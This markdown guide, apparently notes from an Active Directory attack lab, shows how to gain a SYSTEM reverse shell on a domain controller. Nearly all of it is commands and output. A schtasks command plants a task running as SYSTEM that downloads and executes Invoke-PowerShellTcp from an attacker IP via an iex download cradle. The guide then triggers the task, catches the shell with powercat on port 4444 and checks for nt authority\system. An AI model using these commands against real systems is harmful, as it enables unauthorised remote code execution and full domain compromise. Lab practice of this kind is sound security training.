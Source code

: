 # Scheduling and Executing a Task with PowerShell

This guide demonstrates how to schedule a task using PowerShell and execute a reverse shell on a remote machine using `Invoke-PowerShellTcp` and `schtasks`. It also covers how to check if any scheduled tasks are running.

## Step-by-Step Process

### 1. **Adding a Function to the `Invoke-PowerShellTcp` Script**

To initiate a reverse PowerShell shell, run the following command:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.157 -Port 4444
```

Make sure to add the desired function to the end of the script to ensure the reverse shell executes correctly.

### 2. **Creating a Scheduled Task**

You can create a scheduled task on the remote machine (in this case, `dcorp-dc.dollarcorp.moneycorp.local`) using the `schtasks` command:

```powershell
PS C:\Windows\system32> schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex(New-Object Net.WebClient).DownloadString(''http://172.16.100.157/Invoke-PowerShellTcp-buildin-func.ps1'')'"
```

Explanation of parameters:
- `/S`: Specifies the remote machine (`dcorp-dc.dollarcorp.moneycorp.local`).
- `/SC Weekly`: Schedules the task to run weekly.
- `/RU "NT Authority\SYSTEM"`: Runs the task as the `SYSTEM` account for higher privileges.
- `/TN "STCheck"`: Names the task "STCheck".
- `/TR`: Specifies the task action (in this case, executing PowerShell to download and run the script).

![image](https://github.com/user-attachments/assets/6c9e8fa3-2958-4482-8ee1-064ae52bff20)

The output should be:

```
SUCCESS: The scheduled task "STCheck" has successfully been created.
```

### 3. **Running the Scheduled Task**

To manually run the scheduled task, use the following command:

```powershell
PS C:\Windows\system32> schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"
```

The output should confirm that the task has been attempted:

```
SUCCESS: Attempted to run the scheduled task "STCheck".
```
![image](https://github.com/user-attachments/assets/6cd37c97-2719-43d6-8c89-073245f2f8f6)

### 4. **Listening for Incoming Connections**

While the scheduled task is running on the remote machine, you can listen for the reverse shell using Powercat:

```powershell
PS C:\AD\Tools> powercat -v -l -p 4444 -t 1000
```

This command listens on port 4444 for incoming connections, waiting for the reverse shell.

### 5. **Verifying the Current User**

Once you have the reverse shell, verify that you're running with the `SYSTEM` account by checking the hostname and user:

```powershell
PS C:\Windows\system32> hostname
dcorp-dc

PS C:\Windows\system32> whoami
nt authority\system
```

### 6. **Checking for Running Scheduled Tasks**

To check if there are any active scheduled tasks running, use the following command:

```powershell
schtasks /query /S dcorp-dc.dollarcorp.moneycorp.local
```

This will list all scheduled tasks on the remote machine and their current statuses.

---

## Conclusion

By following these steps, you can schedule a task to execute a PowerShell reverse shell on a remote machine, listen for incoming connections, and verify your elevated privileges. Additionally, checking for running scheduled tasks can help you monitor the status of any ongoing tasks on the remote system.

